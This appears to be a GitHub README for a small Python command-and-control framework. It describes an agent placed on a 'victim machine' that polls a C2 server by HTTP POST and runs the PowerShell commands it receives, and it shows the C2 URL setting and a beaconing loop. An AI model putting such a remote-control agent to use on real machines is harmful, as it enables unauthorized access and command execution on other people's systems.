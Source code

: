 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage


Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL

```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for 2 minutes (120 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

## Summarized UML Sequence Diagram 

<img width="452" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/cb05e72e-d5bd-4f2e-8064-6c5590e14354">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
